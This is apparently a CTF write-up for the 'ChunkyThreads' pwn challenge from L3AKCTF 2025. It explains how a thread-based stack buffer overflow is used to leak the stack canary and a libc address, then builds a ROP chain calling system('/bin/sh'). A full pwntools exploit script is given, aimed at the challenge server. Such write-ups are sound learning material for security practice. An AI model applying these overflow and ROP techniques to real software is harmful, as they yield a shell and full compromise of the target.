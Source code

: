 +++
author = "Velobobo"
title = "L3AKCTF 2025 - ChunkyThreads"
date = "2025-07-12"
description = ""
draft = false
slug = "l3ak-2025-chunkythreads"
ctfs = ["L3AKCTF-2025"]
tags = [
    "threads",
    "ctf",
]
categories = [
    "pwn"
]

+++

# ChunkyThreads – l3akCTF 2025

## Overview  
This binary has no pie but all other protections. it uses different threads to print out data , first we have to set the max number of threads by `CHUNKS <num>` threads can be upto 10. then we can enter a cmd like `CHUNK <sleep_time> <repeat> <data>` which uses a thread to print out data and then wait for sleep_time and print again till the data is printed `<repeat>` times. The data is stored in a buffer on stack and can be of any length.


## Reversed code
main
 {{< figure src="main.png" alt="main" width="500" >}}
parsecmd
 {{< figure src="parsecmd.png" alt="parsecmd" width="500" >}}
print
 {{< figure src="print.png" alt="print" width="500" >}}



## Exploitation Plan  
As the binary first puts and then goes to sleep , we can use a thread to leak stack canary by overwriting till the canary's null byte and then puts will leak it and we also provide a big sleep value so that the thread doesn't execute stach_chk_fail.
```python
payload=b'CHUNK 100 1 ' +b'A'*0x49
p.send(payload)
p.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
canary=b'\x00'+p.recv(7)
canary=u64(canary.ljust(8,b'\x00'))
log.critical(f'Canary : {hex(canary)}')
```

Then we use other thread to rop , but the binary had no `pop rdi` gadget , so we had to rop from libc but for that we had to get libcbase. I was stuck here but then i just examined in gdb where the `print` function was returning to , i thought it would return in the binary but it was returning to a libc address. I didn't try to find the reason but maybe cuz threads came into play??? So then i leaked this like the same way i leaked the canary and then calculated the offset of this leaked libc address from the libcbase and hardcoded this offset as it will not change. At last we just call `system(/bin/sh)` and put the sleep time less as we want this to exit before the other 2 threads execute stack_chk_fails


## Full exploit script  

```python
from pwn import *

binary='./chall_patched'
elf = context.binary = ELF(binary, checksec=False)
#context.log_level='debug'
libc=ELF('./libc.so.6',checksec=False)
#p=process(binary)
#gdb.attach(p)
p=remote("34.45.81.67",16006)
p.clean()
p.send(b'CHUNKS 8 ') # setting max threads value
p.recvline()
p.clean()

payload=b'CHUNK 100 1 ' +b'A'*0x49
p.send(payload)
p.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
canary=b'\x00'+p.recv(7)
canary=u64(canary.ljust(8,b'\x00'))
log.critical(f'Canary : {hex(canary)}')


payload=b'CHUNK 100 1 ' +b'A'*88
p.send(payload)
p.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
libcaddr=p.recv(6)
libcbase=u64(libcaddr.ljust(8,b'\x00'))-0x9caa4
log.critical(f'Libcaddr : {hex(libcbase+0x9caa4)}')
log.critical(f'Libcbase : {hex(libcbase)}')

libc.address=libcbase
poprdi=libcbase+0x000000000010f75b
binsh=libcbase+0x1cb42f
system=libcbase+0x58750
log.critical(f'poprdi : {hex(poprdi)}')
log.critical(f'binsh : {hex(binsh)}')
log.critical(f'system : {hex(system)}')

p.clean()
payload=b'CHUNK 1 1 ' +b'A'*0x48 + p64(canary) +b'B'*8 + p64(poprdi) + p64(binsh) +p64(0x000000000040101a) +p64(system)
p.send(payload)

p.interactive()
```

## Result  
{{< figure src="flag.png" alt="flag" width="500" >}}
